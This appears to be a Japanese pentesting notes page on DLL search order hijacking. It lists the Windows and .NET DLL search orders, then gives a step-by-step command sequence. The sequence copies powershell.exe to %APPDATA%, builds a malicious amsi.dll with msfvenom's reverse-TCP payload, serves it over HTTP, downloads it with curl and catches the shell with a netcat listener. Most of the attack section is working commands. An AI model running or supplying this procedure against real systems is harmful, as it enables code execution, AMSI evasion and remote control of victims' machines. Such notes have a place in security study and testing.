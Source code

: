# DLL Search Order Hijack

## DLLを探す順番

1. 実行されたアプリケーションのディレクトリ
2. システムディレクトリ(C:\Windows\System32)
3. 16-bitシステムディレクトリ(C:\Windows\System)
4. Windowsディレクトリ
5. カレントディレクトリ
6. PATH環境変数で定義されたディレクトリ

``` batch
echo %PATH%
```

## DLLを探す順番(.NET Framework)

1. DEVPATH環境変数に列挙されているディレクトリ
2. グローバル・アセンブリ・キャッシュ(GAC)
3. アセンブリコードベース
4. 実行されたアプリケーションのディレクトリ
5. システムディレクトリ(C:\Windows\System32)

* 実際に使われるDLLのパスよりも先に検索されるパスに、悪意のあるDLLを配置することによって、悪意あるコードを実行させる攻撃手法
* 手順

``` batch
    # powershell.exeを実行権限のあるディレクトリにコピー
    copy　C:¥Windows¥System32¥WindowsPowerShell¥v1.0powershell.exe %APPDATA%¥powershell.exe
    # プロセスモニターを起動する。
    # powershell起動
    %APPDATA%¥powershell.exe
    # filter処理
    > ProcessName is powershell.exe then Include
    > Path contains amsi.dll then Include
    # amsi.dllをコピー
    # psは%XXX%ではなく{env:XXX}
    copy C:¥Windows¥System32¥amsi.dll {env:APPDATA}¥amsi.dll
    # powershellを実行してどのディレクトリ配下のamsi.dllが実行されるかを確認する
    %APPDATA%¥powershell.exe
    # 悪意あるdllファイルを上書き
    copy %USERPROFILE%¥Desktop¥Penetration¥hijack.dll %APPDATA%\amsi.dll
```

``` shell
    # kaliでmfsvenomを使いペイロードを作成
    sudo msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform windows LHOST=<KaliのIP> LPORT=1234 -f dll > amsi.dll
    # webサーバ起動
    python -m http.server 8000
```

``` batch
    #ファイル転送　%APPDATA%で実行
    curl -O http://XXX.XXX.XXX.XXX:8000/amsi.dll
```

``` shell
    # kaliで待ち受け
    nc -lvnp 1234
```

``` batch
    #powershell実行でリバースシェルが張れる
    %APPDATA%\powershell.exe
```
